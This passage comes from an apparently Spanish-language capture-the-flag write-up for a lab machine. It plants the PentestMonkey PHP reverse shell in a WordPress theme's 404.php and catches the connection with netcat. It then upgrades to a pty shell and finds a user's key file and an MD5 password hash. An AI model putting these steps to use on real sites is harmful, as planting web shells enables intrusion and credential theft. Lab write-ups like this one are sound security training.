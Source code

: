 ![wp-admin1](wp-admin1.png)

A continuación, se recomienda seleccionar el archivo `404.php` del lado derecho. Para este propósito, usaremos el script [PHP PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), especificando la dirección IP de la máquina atacante y el puerto de escucha correspondiente.

![template](template.png)

Después de agregar la línea de código mencionada, actualizamos el archivo modificado en el servidor.

Realizamos una inspección minuciosa en el repositorio de WordPress y determinamos que la ruta correspondiente al archivo `404.php` es `/wp-content/themes/twentyfifteen/404.php`.

Para obtener acceso a la máquina, iniciamos la escucha del puerto especificado en el código (`443`) y posteriormente accedemos a la ruta `/wp-content/themes/twentyfifteen/404.php` desde el navegador.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.2.11.100] from (UNKNOWN) [10.10.126.203] 39308
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 05:54:06 up  2:11,  0 users,  load average: 0.00, 0.19, 0.50
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
sh: 0: can't access tty; job control turned off
$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```
Después de obtener acceso al sistema como usuario `daemon`, procedemos a ejecutar el siguiente comando para obtener una shell más interactiva:

```bash
$ python -c 'import pty;pty.spawn ("/bin/bash")'
daemon@linux:/$
```

### Pivoting horizontal

Accedimos al sistema como el usuario `daemon`, pero el usuario principal de la máquina es robot. Si dirigimos al directorio `/home/robot/` encontramos dos archivos interesantes.

```bash
daemon@linux:/$ cd /home/robot/
cd /home/robot/
daemon@linux:/home/robot$ ls
ls
key-2-of-3.txt	password.raw-md5
```
Al intentar acceder a la segunda flag, se puede observar que no poseemos los permisos necesarios para su lectura.

```bash
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
```
En cambio, al acceder al archivo `password.raw-md5`, podemos leer su contenido exitosamente. Por el nombre del archivo, fácilmente nos damos cuenta de que se trata de una contraseña hasheada en formato MD5.
